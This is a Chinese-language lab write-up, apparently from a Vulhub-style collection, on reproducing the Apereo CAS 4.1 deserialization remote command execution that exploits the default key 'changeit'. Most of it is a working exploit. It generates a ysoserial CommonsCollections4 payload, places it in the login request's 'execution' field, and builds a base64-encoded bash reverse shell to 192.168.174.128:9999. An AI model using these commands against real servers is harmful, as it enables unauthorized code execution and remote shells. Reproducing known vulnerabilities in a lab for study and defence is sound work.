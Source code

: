 # Apereo CAS 4.1 反序列化命令执行漏洞

## 漏洞描述

Apereo CAS是一款Apereo发布的集中认证服务平台，常被用于企业内部单点登录系统。其4.1.7版本之前存在一处默认密钥的问题，利用这个默认密钥我们可以构造恶意信息触发目标反序列化漏洞，进而执行任意命令。

参考链接：

- https://apereo.github.io/2016/04/08/commonsvulndisc/

## 环境搭建

Vulhub执行如下命令启动一个Apereo CAS 4.1.5：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/cas/login`即可查看到登录页面。

## 漏洞复现

### 写入文件

漏洞原理实际上是Webflow中使用了默认密钥`changeit`：

```
public class EncryptedTranscoder implements Transcoder {
    private CipherBean cipherBean;
    private boolean compression = true;

    public EncryptedTranscoder() throws IOException {
        BufferedBlockCipherBean bufferedBlockCipherBean = new BufferedBlockCipherBean();
        bufferedBlockCipherBean.setBlockCipherSpec(new BufferedBlockCipherSpec("AES", "CBC", "PKCS7"));
        bufferedBlockCipherBean.setKeyStore(this.createAndPrepareKeyStore());
        bufferedBlockCipherBean.setKeyAlias("aes128");
        bufferedBlockCipherBean.setKeyPassword("changeit");
        bufferedBlockCipherBean.setNonce(new RBGNonce());
        this.setCipherBean(bufferedBlockCipherBean);
    }

    // ...
```

使用[Apereo-CAS-Attack](https://github.com/vulhub/Apereo-CAS-Attack)来复现这个漏洞。使用ysoserial的CommonsCollections4生成加密后的Payload：

```
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "touch /tmp/awesome_poc"
```

![image-20220223143747931](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202231437193.png)

然后登录Apereo CAS并抓包（默认用户名/密码为casuser/Mellon），将Body中的`execution`值替换成上面生成的Payload发送：

![image-20220221163417155](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211634315.png)

登录Apereo CAS，touch /tmp/success已成功执行：

![image-20220221163608606](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211636651.png)

### 写入反弹shell

构造反弹shell并进行base64编码

```
bash -i >& /dev/tcp/192.168.174.128/9999 0>&1  (base64编码)
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}

java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}"
```

![image-20220223143714661](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202231437964.png)

监听端口，成功反弹shell

![image-20220221164026966](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202211640018.png)

